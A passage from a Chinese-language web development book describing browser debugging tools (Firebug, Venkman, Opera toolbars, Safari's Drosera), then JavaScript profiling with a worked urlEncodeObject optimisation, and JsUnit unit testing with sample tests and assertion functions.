Web Developer Extension（网页开发者扩展）长期以来一直提供了便捷的方式来从多种角度查看网页。它提供了部分或完全禁用 CSS、禁用图片、禁用脚本以及使用它们组合的方法。它可以调用各种第三方工具，直接或在浏览器的当前视图中验证页面的 CSS、XHTML 和可访问性，这在 DOM 转换后能提供极大的帮助。

它的 `form` 操作和检查选项提供了即时访问字段名称和值（包括隐藏字段）的功能。通过“View Form Details”（查看表单详情）和“Make Form Fields Writable”（使表单字段可写）选项，测试安全性，甚至只是测试具有不同隐藏或只读值的功能，都变得简单得多。

在使用 DOM 或改进界面可访问性的属性时，轮廓功能可作用于一定范围的元素，而 DOM 检查器则勾勒出单个、聚焦的元素。它不仅可以勾勒出所有 `td` 元素或 `img` 元素，还可以勾勒出所有缺少 `alt` 属性的 `img` 元素和所有缺少 `title` 属性的链接。



图 4.6 Web Developer Extension 正在管理浏览器 Cookie。

Web Developer Extension（如图 4.6 所示）可以显示有关当前活动页面可用 Cookie 的详细信息，并提供一个易于使用的对话框来编辑每个 Cookie 的详情。它还提供了调试身份验证或会话问题时非常需要的重置 Cookie 选项：“Clear Session Cookies”（清除会话 Cookie）、“Delete Domain Cookies”（删除域 Cookie）和“Delete Path Cookies”（删除路径 Cookie）。此功能消除了在调试时为了删除特定 Cookie 而需要深入研究应用程序偏好的需要。

总而言之，Web Developer Extension 包含数十种功能；每一项功能都针对特定任务，而且在需要时都极其有用。该扩展在本文未涉及的领域提供了更多功能，包括（但不限于）页面放大、小屏幕渲染、显示各种元素详情（原地查看）、查看生成的源代码以及窗口调整大小。

##### 4.2.3.2 Firebug

对于开发、调试甚至测试 Ajax 驱动的应用程序，Firebug 已迅速成为“必备”工具清单之首。它的每一个部分都实现了丰富的功能，而且用户可以安装后立即使用。其深度并未导致混乱或拥挤的界面；这种设计允许用户自己或通过查阅文档来发现新的数据访问方式。

Firebug 最受欢迎的功能是它允许检查 XMLHttpRequest 调用（如图 4.7 所示），包括发送到服务器的请求和响应头以及内容。这提供了一个在浏览器内、可过滤、可展开的 HTTP 流量视图，以前只有像 livehttpheaders 扩展 (http://livehttpheaders.mozdev.org) 这样的 HTTP 查看器或像 tcpflow 或 tcpdump 这样的数据包嗅探器才能提供。



图 4.7 Firebug 的实时 XMLHttpRequest 检查。

其他工具，例如 Fiddler (www.fiddlertool.com)，通过充当 HTTP 代理来记录和显示参数、内容和头信息，从而提供 HTTP 调试功能。这些工具提供了调试任何浏览器发送和接收的 HTTP 请求的灵活性，但失去了使用浏览器扩展的便利性和效率。

Firebug 还有其他几个功能使其脱颖而出；这些功能包括它利用 DOM Inspector 钩子来提供几乎即时深入到 CSS 布局问题根源的方法，或者精确确定一个元素如何相对于其周围环境进行渲染。

此外，就像 Firebug 中的大多数功能一样，如果你能看到它，你就可以在页面中“实时”编辑它。在检查工具中查看的源代码可以通过属性或原始源代码进行编辑。图 4.8 中布局工具中的每个数字都可以双击进行编辑，事实上（就像 Firebug 中任何其他可编辑的数字对象一样），每个数字都可以通过使用上下箭头键或使用“Page Up”和“Page Down”键来增加或减少十的倍数。



图 4.8 Firebug 使用 Firefox 内置的 DOM Inspector 进行详细的元素检查。

无论是编辑元素、CSS 规则还是在命令行上运行 JavaScript，Firebug 的制表符补全和自动完成功能都能快速智能地响应。它不仅支持语言本身的关键字，还支持对 Web 应用程序自身的函数、变量和对象的制表符补全。
正如本章后面所详述的，Firebug 还有一个内置的脚本分析器，具有易于使用的 GUI 和用于创建特定、针对性脚本分析报告的 JavaScript API。它还有一个脚本调试器，提供易于定义的断点和直观的变量检查页面；这些界面与 Firebug 的其他大部分界面的工作方式类似，即每个变量及其内容都可以展开以显示其内容，链接到它代表的 DOM 元素，或者在函数回调的情况下链接到代码中的行。

##### 4.2.3.3 Venkman

Venkman 多年来一直是 JavaScript 开发者的主力工具，它提供了许多强大的功能以及同样多的使用方法。因此，不熟悉该工具的开发者常常认为它学习曲线陡峭。虽然界面最初可能看起来令人望而生畏，但其强大功能和灵活性使其完全值得你学习基础知识。
图 4.9 显示了 Venkman 的默认布局，包括当前加载的脚本、其中一个脚本的源代码（带选中的断点）、具有类型和值的局部变量、断点的树形列表以及一个控制台。
窗口中的每个窗格都可以从窗口中取消停靠和重新停靠；因此，你可以将任何一个窗格拖动到屏幕的其他部分并调整其大小，而不会影响其他窗格。任何带有表格列表的窗格都可以显示或隐藏任何列；所有窗格都可以被移除（通过窗格上的“X”图标或“View”视图菜单）或重新添加回视图中。简而言之，如果 Venkman 的界面看起来过于复杂，它可以快速轻松地更改。
对于刚开始使用 Venkman 的人来说，移除多余的窗格，只显示 JavaScript 文件树、源代码查看器和局部变量列表，可以让事情更容易理解。从简单的开始，文件及其源代码会更容易浏览。然后，其他窗格的需求可能会（或者不会，取决于你的使用方式）显现出来。堆栈跟踪和局部变量的结合可以在跟踪参数值在经过几层函数传递后出错的位置时提供至关重要的信息。



图 4.9 Venkman 默认布局视图。

上下文菜单和对话框也包含丰富的功能。引用对象和数组的变量值可以展开以显示其内容，而断点检查则提供了远超出停止点以检查脚本的多个选项。断点可以在初始触发后清除自身，跟踪执行经过它们的次数，在断点处执行自定义代码，并根据自定义代码运行的结果改变给定断点的结果。

Venkman 还使用其自身特定格式的注释（“元注释”）来允许插入调用以记录到控制台、设置条件断点、设置带有要运行的 JavaScript 的断点等。因为这些断点仅存在于注释中，所以所有浏览器默认会忽略它们，不会导致 JavaScript 错误或减速。例如，命令 `//@JSD LOG "Value of x = " + x` 会将该点的 x 值追加到字符串 "Value of x = " 之后并记录到控制台。为了使用元注释，Venkman 有一个选项可以扫描它们并将其解释为

实际可用、可编辑的断点。这样，断点就不会为任何碰巧安装了Venkman的人触发，而只为那些特意设置使用元注释（Meta Comments）的Venkman用户触发。

对Venkman的快速概览很难全面展现其价值。这个工具功能如此丰富，难以在此摘要中尽数体现，新用户最好通过安装并从基础功能开始使用来亲身体验它的强大。它可能有些许粗糙之处和一开始显得局促的界面，但它在JavaScript调试方面提供了无与伦比的精确度和灵活性。

#### 4.2.4 Opera

乍一看，Opera似乎非常封闭，尽管它对自定义皮肤和设置有着惊人的支持。然而，通过自定义按钮、自定义INI文件和强力按钮，你会发现浏览器本身、其功能以及它所查看的页面，几乎可以按用户认为合适的任何方式进行修改。尤其是随着Opera 8和Opera 9版本的发布，可扩展性变得更容易且更普遍。

##### 4.2.4.1 Web开发工具栏和菜单

Opera的Web开发工具栏和菜单（如图4.10所示）将许多自定义菜单和书签脚本（bookmarklets）整合到一个易于安装的环境中，用于在Opera中进行调试。除了高亮显示给定页面中的特定元素或元素类型，或将当前页面提交到在线验证服务等功能外，该工具栏还提供了许多独特的功能。

显示菜单提供了许多在其他工具栏中不可用或未提供如此详细信息的选项。它可以明确模拟手持设备、投影设备和电视设备；文本浏览器；以及（因为它能）用于8位计算机的Opera。显示菜单还提供了一种简便的方法来切换作者/用户模式、用户CSS和表单样式，这些功能在不同浏览器中的支持差异很大。

##### 4.2.4.2 Web无障碍工具栏

Opera的Web无障碍工具栏（如图4.11所示）实际上捆绑了Live DOM控制台和其他Opera开发工具（http://dev.opera.com/tools），包括开发控制台、Live DOM控制台、CSS编辑器和DOM快照。特别地，该工具栏提供了Juicy Studio色彩对比分析器的三种不同测试选项的实现，该分析器执行第2章“无障碍性”中所述的前景色和背景色检查。



**图4.10** 该工具栏提供了多种不同的视图来测试DOM布局。



**图4.11** 工具栏内集成的Juicy Studio编写的脚本。

无障碍工具栏在检查DOM、已编写与计算后的CSS以及链接到外部验证工具（包括用于模拟色盲观看的灰度渲染）方面，提供了与本章提到的其他工具栏相当的全部功能。它还提供了任意移除DOM节点、高级CSS编辑以及评估尺寸的详细元素度量功能。

#### 4.2.5 Safari

Safari与IE类似，使得开发扩展程序有些困难。渲染引擎本身可以嵌入到任何MacOS应用程序中（并且最近的开发中，在其他平台也可用）。然而，开发者找到了一种通过输入管理器（Input Managers）直接扩展Safari的方法。

##### 4.2.5.1 Drosera

WebKit的JavaScript调试器Drosera，作为一个独立的应用程序运行，而不是作为浏览器插件。通过这种方式，它允许你将调试器附加到任何启用了调试功能且使用WebKit渲染引擎的应用程序。

> 要为Safari启用调试器，请在终端中运行 `defaults write com.apple.Safari WebKitScriptDebuggerEnabled -bool true`。

一旦附加到正在运行的应用程序，JavaScript文件的列表将出现在Drosera窗口左侧的树状导航中，并按主机分组。这使得可以以类似于Xcode或其他IDE的方式查看JavaScript文件。除了主要的JavaScript源代码窗格和文件列表外，它还有两个窗格用于在脚本命中断点时检查脚本。

通过在源代码窗格的边沟（gutter）中单击行号来设置断点，这将启用一个断点，该断点会暂停脚本并将焦点带到Drosera。再次单击该断点可禁用它，双击则会弹出一个提示框，提供有关该断点的更多选项，例如要匹配的条件、是中断还是记录，以及一个用于显示该断点触发次数的计数器。

一旦脚本命中断点并设置为暂停进一步执行（或者你只是点击了“暂停”按钮以便在下一条语句处中断），Drosera会将其自身带到前台，并向你展示脚本在该时刻的信息。要移除断点，只需将其从边沟拖出，它就会消失。源代码视图边沟中的一个指示器会显示当前等待执行的语句，而源代码上方的两个窗格则显示当前函数及其变量的信息。

⁴ 以 *Drosera Rotundifolia*（或称圆叶茅膏菜，如应用程序图标所示）命名，这是一种食虫植物，它使用覆盖着粘性分泌物的毛来捕捉虫子，可以这么说。

在图4.12中，左侧列表按作用域的逆序显示调用栈中当前活动的函数。函数右侧的列表显示该函数作用域内的变量。这允许轻松地在调用栈中上下浏览，以查看从一个函数传递到另一个函数的变量如何影响断点处的脚本。单步执行脚本时，视图会随着变量的变化以及函数从栈中添加和移除而更新。



**图4.12** Drosera的跟踪视图。

> 如图4.12所示，Drosera处理对象方法的方式与Firebug相同，即它们在技术上被创建为匿名函数，然后对象原型有一个对该函数的引用。虽然考虑到方法在原型对象中的工作方式，这是合理的，但它创建的调用栈比Venkman显示的更难阅读。

与其他JavaScript调试器相比，Drosera遵循了苹果的设计规范。它拥有一个干净、易于使用的界面，将你的注意力集中在手头的任务上，而不是周围的界面上。因为Drosera的源代码公开可用，并且开发者实际上大部分是用HTML、CSS和JavaScript编写的，所以它很容易被扩展或修改。

### 4.3 JavaScript性能分析

随着客户端Web应用程序变得越来越复杂，对JavaScript进行性能分析（profiling）的需求也变得越来越明显。当数十个函数调用和对象相互作用以产生复杂界面时，在性能方面找出问题点就变得更加困难。对脚本进行性能分析可以消除脚本优化中的猜测成分，并详细查看在给定时间范围内执行的函数的执行时间和调用次数。

在最初编写代码时，开发者（通常）试图在高效代码和高效编码之间取得适度的平衡。具体来说，代码的评估应采取最短的可用路径，同时编码时间最短。然而，这样做的话，无论开发者多么勤奋，低效代码总会不可避免地进入代码中。为了将这些问题追踪到明确的过度消耗点，代码分析工具几乎可以在使用几分钟内就显示出其价值。

一个具有挑战性的需要遵守的规则是：在开发的最后阶段之前，推迟JavaScript优化。架构会调整，对象及其使用方式会改变，错误会被修复，总而言之，会发生各种变化。拥有一个功能完全、可维护的应用程序应该绝对是任务列表中的首要任务。使用分析器进行代码优化在严肃的应用程序开发中确实有其一席之地，但前提是被优化的代码几乎没有更改的可能性了。

> 虽然Venkman的分析器提供了诸如包含或排除整个文件或其中定义的特定函数等有用功能，但本节将重点关注Firebug的分析器，因为大多数Ajax开发者会安装Firebug来处理 `XMLHttpRequest` 请求。尽管界面、输出和特定于扩展的调用会与Venkman不同，但原理是相同的，就像使用任何其他代码分析器一样。


此处显示的输出包含大量信息，可以通过点击任何列标题按任一方向排序。从左到右，各列含义如下：

- **函数**——不仅显示该行所属的函数名称，还链接到JavaScript文件中该函数声明所在行。这使得点击跳转到被分析的具体代码变得非常容易，便于调查运行时间较长的函数或方法。
- **调用次数**——函数被调用次数的简单计数。
- **百分比**——函数自身执行时间占总执行时间（在分析头部显示，以毫秒为单位）的百分比。
- **自身时间**——函数在其直接作用域内花费的时间。在尝试确定哪些函数拖累了某些功能性能时，此信息通常最有价值。例如，查看第二长运行的函数`urlEncodeObject`，其单次调用就占了脚本运行时间的近20%。
- **时间**——函数在其作用域内花费的累积时间；这反映了在当前函数的调用栈中花费的全部时间。如图4.13所示，`run`函数耗时68.363毫秒返回，包括其调用的所有函数。因为onclick事件首先调用了`run`，其时间等于`run`内花费的时间加上调用`run`启动所花的时间，总计68.41毫秒。
- **平均值**——函数花费的平均累积时间。与最小和最大运行时间一起，平均值有助于分析在分析采样期间被多次调用的函数。
- **最小值**——函数花费的最小累积时间。
- **最大值**——函数花费的最大累积时间。这通常反映了所讨论函数的可伸缩性，因为即使平均值保持较低，也表明平均值在某些情况下可以并且会上升。
- **文件**——与函数列类似，不仅显示函数定义的文件名和行号，还链接到文件中的该行号；此功能提供了在分析结果和包含相关代码的脚本选项卡之间快速切换的能力。



图4.13 Firebug JavaScript分析工具的输出。

#### 4.3.1 识别瓶颈

由于上一个示例中最长运行时间的函数调用了库函数和其他对象，它有很大机会让瓶颈进入执行过程。相比之下，第二长运行的函数`urlEncodeObject`调用的其他函数非常少，其自身时间实际上完全包含了分析中的时间：

```javascript
// Non-recursive serialization from object to
// url-encoded values
AjaxRequest.prototype.urlEncodeObject = function(obj) {
    var first = true;
    var string = '';
    for (i in obj) {
        var temp_obj = obj[i];
        // No need to toString() a string literal.
        if (typeof temp_obj != 'string') {
            temp_obj = temp_obj.toString();
        }
        var temp_key = encodeURIComponent(i);
        temp_obj = encodeURIComponent(temp_obj);
        if (first) {
            first = false;
            string += temp_key + '=' + temp_obj;
        } else {
            string += '&' + temp_key + '=' + temp_obj;
        }
    }
    return string;
}
```

因为此函数不调用任何实例变量或方法，所以可以通过在Firebug控制台中直接调用`console.profile()`和`console.profileEnd()`函数来最快地检查它。在上述分析中调用该函数的代码只传递了一个小对象`{'one': 1, 'two': 2}`来简单演示其编码功能。为了找到真正的性能消耗，需要更大的对象来进行测试：

```javascript
var test = {};
for (var i = 0; i < 100000; i++) test['i' + i] = i;
```

上述调用创建了一个包含100000个成员变量的对象。键和值的实际编码应尽可能简化，因为输出将完全匹配输入，导致对象只是被展平为URL编码的变量/值对。接下来的调用启动一个标记为“Encoding”的分析器，调用编码对象，然后停止分析器：

```javascript
console.profile("Encoding");
AjaxRequest.prototype.urlEncodeObject(test);
console.profileEnd("Encoding");
```

当前函数编码整个对象耗时2287毫秒，这提供了一个良好的起点。回到函数本身，对于此示例，只有循环真正重要，因为它被运行了100000次。字符串拼接无论如何都需要进行，并且没有太多性能改进空间。然而，在字符串拼接之前，需要声明变量、对值进行比较，并进行编码。虽然每个键/值对都需要编码，但循环的其余部分确实有改进空间。考虑到这些语句每个都将运行100000次，临时变量不需要在每次迭代中重新声明。它们实际上只需要声明一次，然后在每次迭代中重新赋值即可。它们仍然需要存在，因为函数不能（或者更确切地说，不应该）更改通过`obj`变量引用的对象。接下来看`if`语句，通过在Firebug控制台中运行的循环创建的每个值的类型都是“数字”而不是“字符串”；这意味着每次都会调用`toString()`。实际上，不仅对象、函数和数组（`typeof`对所有这些都返回“object”）在传递给`encodeURIComponent()`时会被类型转换为字符串，而且数字、布尔值和undefined值需要以不同方式处理或根本不处理。

重写该函数，数字不处理；因为在编码时它们不会改变，布尔值切换为1或0而不是字符串“true”和“false”，undefined值简单地赋予空值。不幸的是，URL编码的值缺乏指定命名空值的方法，因此undefined值将与命名空字符串完全相同：

```javascript
// Non-recursive serialization from object to
// url-encoded values
AjaxRequest.prototype.urlEncodeObject = function(obj) {
    var first = true;
    var string = '';
    var temp_key;
    var temp_obj;
    for (i in obj) {
        var temp_obj = obj[i];
        temp_key = encodeURIComponent(i);
        switch (typeof temp_obj) {
            case 'number':
                temp_obj = obj[i];
                break;
            case 'boolean':
                temp_obj = (obj[i]) ? 1 : 0;
                break;
            case 'undefined':
                temp_obj = '';
                break;
            default:
                temp_obj = encodeURIComponent(temp_obj);
                break;
        }
        if (first) {
            first = false;
            string += temp_key + '=' + temp_obj;
        } else {
            string += '&' + temp_key + '=' + temp_obj;
        }
    }
    return string;
}
```

尽管现在代码行数更多，但新函数在相同数据上运行仅需927毫秒，运行时间仅为更改前的40%。作为额外好处，布尔值和undefined值将不再显示为描述其值的字符串。

图4.14显示的示例分析了一场人机对弈的黑白棋游戏，该JavaScript对弈程序是多年前编写的。在此分析中，调用次数重复的可能性很小，因为每位玩家每次的走法都会有很大差异。在这种情况下，每个函数的平均、最小和最大运行时间将比调用次数甚至整体运行时间的百分比更有用。

▼ 分析（475.02毫秒，16416次调用）

| 函数 | 调用次数 | 百分比 | 自身时间 | 时间 | 平均值 | 最小值 | 最大值 | 文件 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| move | 96 | 59.27% | 281.551毫秒 | 651.558毫秒 | 6.787毫秒 | 3.731毫秒 | 17.225毫秒 | othello.php（第87行） |
| changeImage | 434 | 21.44% | 101.831毫秒 | 364.181毫秒 | 0.839毫秒 | 0.72毫秒 | 1.327毫秒 | othello.php（第76行） |
| think | 48 | 10.08% | 47.894毫秒 | 402.813毫秒 | 8.392毫秒 | 4.008毫秒 | 14.269毫秒 | othello.php（第139行） |
| thinkLine | 14974 | 8.02% | 38.112毫秒 | 38.112毫秒 | 0.003毫秒 | 0.001毫秒 | 0.021毫秒 | othello.php（第130行） |
| checkLine | 768 | 0.86% | 4.065毫秒 | 293.239毫秒 | 0.382毫秒 | 0毫秒 | 6.341毫秒 | othello.php（第120行） |
| checkBoard | 96 | 0.33% | 1.565毫秒 | 1.761毫秒 | 0.018毫秒 | 0.008毫秒 | 0.078毫秒 | othello.php（第64行） |

图4.14 分析整局游戏中JavaScript调用的结果。

由于JavaScript仅在玩家走棋时运行，并且应用程序遵循更具事件驱动的设计，总运行时间约394毫秒是合理的。然而，其中两个函数`move`和`think`的平均值远高于其他函数。此外，`checkLine`函数尽管平均值较低，但其最大运行时间却可能过高。通过关注与之前相同类型的问题（如重复声明、低效的递归和循环以及仓促的逻辑），可以降低本次练习中每个目标函数的运行时间（如图4.15所示）。

▼ 分析（290.866毫秒，13821次调用）

| 函数 | 调用次数 | 百分比 | 自身时间 | 时间 | 平均值 | 最小值 | 最大值 | 文件 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| move | 63 | 57.2% | 166.38毫秒 | 355.924毫秒 | 5.65毫秒 | 0.002毫秒 | 13.435毫秒 | othello.php（第87行） |
| changeImage | 214 | 17.79% | 51.732毫秒 | 184.722毫秒 | 0.863毫秒 | 0.717毫秒 | 1.215毫秒 | othello.php（第76行） |
| think | 37 | 13.5% | 39.257毫秒 | 283.156毫秒 | 7.641毫秒 | 1.19毫秒 | 10.682毫秒 | othello.php（第141行） |
| thinkLine | 12954 | 9.93% | 28.873毫秒 | 28.873毫秒 | 0.002毫秒 | 0.001毫秒 | 0.018毫秒 | othello.php（第132行） |
| checkLine | 496 | 1.03% | 2.991毫秒 | 139.168毫秒 | 0.281毫秒 | 0毫秒 | 5.614毫秒 | othello.php（第120行） |
| checkBoard | 62 | 0.56% | 1.62毫秒 | 1.829毫秒 | 0.029毫秒 | 0.009毫秒 | 0.076毫秒 | othello.php（第64行） |

图4.15 分析器反映所做的改进。


### 4.4 单元测试

和文档一样，单元测试也常常被视为一项应该完成却总被忽视的任务，得不到开发者应有的重视。坚持维护并定期运行单元测试能为应用开发带来诸多益处，比如保持主干代码稳定，避免因未经充分测试的变更给同一项目的其他开发者带来一连串的挫败感和效率低下。

近年来，单元测试的流行度因敏捷软件开发方法而有所提升——在敏捷模式下，严格的、频繁的测试是保障快速迭代的关键。无论应用开发遵循哪种方法论，开发者个人进行的单元测试都只会提升整体应用的质量和稳定性。

在JavaScript领域，开发者大多使用JsUnit（如图4.16所示），这是一个基于Java JUnit单元测试工具的JavaScript移植版本。它能在所有主流浏览器（IE6、IE7、Mozilla、Opera和Safari）中运行，并提供足够简洁的API以支持几乎立即创建测试；同时又具备足够的灵活性，可以创建完整的嵌套单元测试套件。



图4.16 JsUnit中一次成功的测试运行

作为首个测试用例，需要验证`CustomEvent`对象是否始终存在，并且其`type`属性默认值为'custom'，以便被继承它的对象重写：

```javascript
function CustomEvent() { }
CustomEvent.prototype = {
    type : 'custom'
}
```

相应的测试只需断言：新创建的`CustomEvent`类实例的`type`属性值应为custom：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" debug="true">
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8" />
<title>Testing the ajax.lib.js : EventDispatcher object</title>
<script type="text/javascript" src="/utilities/jsunit/app/jsUnitCore.js"></script>
<script type="text/javascript" src="/projects/advanced%20ajax/sample%20code/includes/ajax.lib.js"></script>
<script type="javascript">
/**
 * A simple test to verify that the CustomEvent object has not broken
 */
function testCustomEvent() {
    assertEquals(
        "CustomEvent must have a 'type' of 'custom'",
        (new CustomEvent).type,
        'custom'
    );
}
</script>
</head>
<body>
</body>
</html>
```

逐步解析这个测试：可以看到测试本身就是一个标准的XHTML页面；它包含了jsUnitCore.js文件以及测试所需的所有其他文件（包括包含待测试功能的ajax.lib.js）。页面定义了一个`testCustomEvent()`函数，连同所有其他以“test”开头的函数，都会被JsUnit识别为整个测试页面的测试步骤。

#### 4.4.1 断言

`assertEquals()`调用是JsUnit提供的若干断言函数之一。与其他断言函数一样，该函数用于测试特定的比较（本例中是验证第二和第三参数的比较结果是否为true），并在比较失败时根据可选消息参数报告错误。

> JsUnit中所有断言函数都包含可选的message参数，`fail()`函数例外，它只接受消息作为参数。

```
assert([message], boolean)
assertTrue([message], boolean)
assertFalse([message], boolean)
assertEquals([message], value1, value2)
assertNotEquals([message], value1, value2)
assertNull([message], value)
assertNotNull([message], value)
assertUndefined([message], value)
assertNotUndefined([message], value)
assertNaN([message], value)
assertNotNaN([message], value)
